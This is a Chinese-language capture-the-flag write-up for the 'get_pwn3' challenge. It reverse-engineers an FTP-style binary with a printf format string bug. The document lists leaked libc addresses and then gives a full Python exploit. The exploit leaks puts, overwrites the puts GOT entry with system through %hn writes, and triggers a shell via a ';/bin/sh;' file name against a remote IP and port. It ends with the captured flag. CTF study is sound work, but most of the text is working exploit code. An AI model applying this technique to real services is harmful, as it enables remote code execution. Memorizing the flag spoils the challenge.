 # get_pwn3

---

## 目录

[TOC]

---

## 逆向分析

首先是要求用户输入一个用户名，随后对输入的字符进行`+1`，随与`sysbdmin`进行比较，不相同程序退出

```C
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int command; // eax
  char s1[40]; // [esp+14h] [ebp-2Ch] BYREF
  int nop; // [esp+3Ch] [ebp-4h]

  setbuf(stdout, 0);
  ask_username(s1); //用户输入后对每个字符+1
  ask_password(s1); //与"sysbdmin"进行比较，既用户需要输入"rxraclhm"
  while ( 1 )
  {
    while ( 1 )
    {
      print_prompt();//打印printf("ftp>")
      command = get_command();//获取用户输入遂转成数字 get:1 put:2 dir:3
      nop = command;
      if ( command != 2 )
        break;
        //申请一个0xF4大小的heap，随后由用户输入当前段的名字和内容
        //名字可由 dir 打印，也可用于打印内容时作为判断的索引
        put_file();
    }
    if ( command == 3 )
    {
      //从heap中索引每个块的名字，拼接，遂使用puts打印出来
      show_dir();
    }
    else
    {
      if ( command != 1 )
        exit(1);
      //从heap中根据块名进行索引，并使用printf(content)将其打印，存在字符串格式化漏洞
      get_file();
    }
  }
}
```

### 总结

存在以下漏洞

- 格式化字符串

### 攻击思路

#### 利用格式化字符串篡改GOT

- 先泄露libc（申请的块名为;/bin/sh;）
- 篡改puts函数的got表
- 输入`dir`使其调用`show_dir`即可执行`puts(name)`

---

## 泄露libc并确定libc版本

由于题目并没有给出libc文件，所以需要我们自己去确认，使用格式化字符串泄露多个函数偏移，后使用工具下载匹配的libc文件，最终泄露和测试结果如下：

```css
===============『2023-06-07 23:24:54』===============
『puts』================>『0XF7679150』

===============『2023-06-07 23:26:18』===============
『strcmp』================>『0XF76AD7B0』

===============『2023-06-07 23:26:51』===============
『malloc』================>『0XF76232C0』

===============『2023-06-07 23:27:35』===============
『fread』================>『0XF7595D60』

===============『2023-06-07 23:28:52』===============
『LibcBase』================>『0XF7605000』
```

根据下载到的libc文件最终计算的`LibcBase = 0XF7605000`，找到libc

## Exploit

```python
from MUC.ezpwn import *

p,pb,libc = init(log="debug",arc="i386",b=32,r="123.59.196.133:10027")

password = "rxraclhm"
p.sendlineafter("Name (ftp.hacker.server:Rainism):",password)

def put(name,content):
    p.sendafter(b"ftp>",b"put")
    p.sendlineafter(b"please enter the name of the file you want to upload:",name)
    p.sendlineafter(b"then, enter the content:",content)

def get(name):
    p.sendafter(b"ftp>",b"get")
    p.sendlineafter(b"enter the file name you want to get:",name)

def dir():
    p.sendafter(b"ftp>",b"dir")

put(";/bin/sh;\x00",b"%8$s"+p32(pb.got["puts"])+p32(0))
get(";/bin/sh;\x00")
putsAddr = u32(p.recvuntil(b"\xf7")[-4:])
calcLibcBase("puts",putsAddr)
sysAddr = getFunc("system")

sH = (sysAddr >> 16) & 0xFFFF
sL = sysAddr & 0xFFFF
payload = f"%{sL}c%14$hn%{sH-sL}c%15$hn".ljust(28,"A")
payload = payload.encode() + p32(pb.got["puts"]) + p32(pb.got["puts"]+2)
put("pwn",payload)
get("pwn")
dir()

p.interactive()
#flag{67227981-49f1-40b5-8b3d-aa767bfe5c67}
```
